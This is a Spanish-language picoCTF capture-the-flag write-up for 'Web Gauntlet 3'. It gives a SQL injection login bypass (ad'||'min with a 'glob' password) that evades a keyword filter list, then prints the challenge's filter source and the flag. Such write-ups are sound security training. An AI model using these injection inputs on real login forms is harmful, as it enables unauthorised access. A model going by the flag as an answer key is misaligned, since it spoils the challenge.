

# Web Gauntlet 3


## Descripción
Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:32946/](http://mercury.picoctf.net:32946/) Filter: [http://mercury.picoctf.net:32946/filter.php](http://mercury.picoctf.net:32946/filter.php)

## Resolucion
Nos vuelven a dar dos enlaces, el primero a un formulario de login y el segundo la lista de caracteres filtrados. Como la única diferencia con Web Gauntlet II es la extensión que podemos introducir, podemos reusar los mismos campos:

Usuario: ad'||'min
Y como contraseña: 'glob '*

Al introducirlo y entrar en filter.php encontraremos el siguiente código:

```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

Obteniendo así la flag: 'picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}'